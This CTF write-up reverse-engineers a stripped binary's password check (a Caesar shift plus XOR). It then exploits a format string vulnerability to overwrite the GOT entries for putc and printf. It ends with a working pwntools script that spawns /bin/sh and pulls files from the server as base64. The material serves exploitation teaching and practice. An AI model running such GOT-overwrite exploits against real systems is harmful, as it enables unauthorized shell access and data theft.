 ## CTF Challenge Writeup

### Step 1: Run `file` and `checksec` on the given binary

![image](includes/images/file.png)

On running `file` on the executable we infer that it is a 64-bit binary, dynamically linked and stripped. Since it is stripped, we need the help of a decompiler to analyze it.

![image](includes/images/checksec.png)

On running `checksec` we infer that it has 
- canaries and NX are enabled (NX being enabled means we can't use a shellcode).
- partial relro and pie disabled.
This hints that there might be a format string vulnerablity.

### Step 2: Run the executable and decompile it using Ghidra

![image](includes/images/run.png)

We see that the executable asks for a password and gives a 4 sec window to enter the password. 

![image](includes/images/check_fsv.png)

We check whether the password field has a format string vulnerability. But it doesn't.

![image](includes/images/decompile_entry.png)

We decompile it with Ghidra. Since the executable is stripped, Ghidra shows the entry function. The first parameter of the `__libc_start_main` function is the main function. We can rename it as such.

![image](includes/images/main.png)

The main function has 3 functions FUN_00401216(), FUN_00401259(), FUN_00401448() (function FUN_00401230() is a callback to handle the alarm() and does nothing interesting)

![image](includes/images/print.png)

FUN_00401216() just prints.

![image](includes/images/pass.png)

FUN_00401259() asks for the password. On first look we can say that this function obfuscates the input password and compares it to `cLVQjFMjcFDGQ`. Rename as `pass()`

![image](includes/images/init.png)

FUN_00401448() is executed after the password is verified and this function does something interesting. This function has a format string vulnerability just below `printf("hello");` and then there is a system function that only lists the files in the server. Rename as `init()`

Based on these observations we can decide our course of action
- first, we reverse the password in the pass() function.
- second, we use the format string vulnerability to overwrite some libc function with the address of the init() function so that it loops arround and exploit the format string vuln as many times as required. We choose the putc function to overwrite and when the function loops back, we use format string vuln to overwrite the the GOT table entry of printf() with system so that in the next looping, we can enter `/bin/sh`. This converts the printf(s) to essentially work like system("/bin/sh").


### Step 3: Reversing the password

We shall rename few variables to analyze the pass() function

![image](includes/images/pass_rename.png)


__Note__ : `input[10]` in the decompiled code and fgets() that writes upto 32 bytes we might think that there is a bof vulnerability but from the listing window we confirm that bof is not a possibility as the `input` is placed 0x38 bytes above the rbp as shown below.
![image](includes/images/note.png)


We notice that some kind of ascii manipulation is done on each character of the input password string and then xor-ed against 0x35 (=53) to get another string which is compared to `cLVQjFMjcFDGQ`.

![image](includes/images/peculiar.png)

Observe this peculiar line. Generally, modulo (%) operation when decompiled produces a code similar to this. A rule of thumb is that `(x / divisor) * -divisor` hints at a modulo operation involved.
Thus this line is essentially `iVar1 % 26`

On closer analysis the ascii manipulation is actually a Caesar cipher with shift = 10.

![image](includes/images/shift_and_x.png)


So the input is first Caesar ciphered and then xor-ed character by character. 
We can reverse the xor using `xor()` from pwntools.

![image](includes/images/xor_reverse.png)

We can reverse the Caesar cipher using this function. Passing this `Vycd_sx_Vsqrd` to the function we get the password "Lost_in_Light"

![image](includes/images/caesar_cipher_reverse.png)

### Step 4: Overwriting the GOT table entry of putc to init() and overwriting the GOT table entry of printf with value at the GOT address of system

To use the format string vulnerablity we need
- the offset at which the string that we control is present
- the GOT address of putc and printf() and init() address as well as value at the GOT address of system().

the offset can be found using GDB (use `handle SIGALRM nostop noprint` to ignore the SIGALARM) 

![image](includes/images/offset.png)

the offset is found to be 6 as the `ABCD`(0x44434241) appears at the 6 the position.

Using Ghidra we get the GOT address of putc = `0x00404048`and printf = `0x00404020` and init() function = `0x00401448` . Value at the GOT address of system = `0x00401060`.

![image](includes/images/system_printf.png)

![image](includes/images/putc.png)

![image](includes/images/init_addr.png)


### Step 5: Crafting the exploit

Also the presence of system("ls *.pdf") in init() suggests that the flag we are looking is in a pdf format. We are required to read the pdf from the server. In order to read we'll convert the pdfs to base64, receive the bytes, decode it from base64 and write it as local files.

So our final exploit looks like 

``` python
from pwn import *
context.binary = ELF("path/to/binary")
context.log_level = "debug"

# got manually
OFFSET = 6

# from reversing pass()
password = b"Lost_in_Light"

# from ghidra
system_plt = 0x401060
init_addr = 0x401448
putc_got = 0x404048
printf_got = 0x404020

# built in pwntools functions to overwrite GOT entries
fmt1 = fmtstr_payload(offset=OFFSET, writes={putc_got: init_addr}, write_size="short")
fmt2 = fmtstr_payload(offset=OFFSET, writes={printf_got: system_plt}, write_size="short")

p = process("path/to/binary")
# For remote
# p = remote(host,port)

p.sendlineafter(b">>> ", password)
p.sendlineafter(b">>> ", fmt1)
p.sendlineafter(b">>> ", fmt2)

p.sendline(b"/bin/sh")

p.clean()

p.sendline("ls")

# receiving the files as base64 and decoding back to pdf to read the pdfs
files = p.clean().decode().strip().split("\n")
for file in files:
  p.sendline(f"base64 {file}".encode())
  encoded_file = p.clean().decode()
  with open(file, "wb") as f:
      f.write(b64d(encoded_file))
```


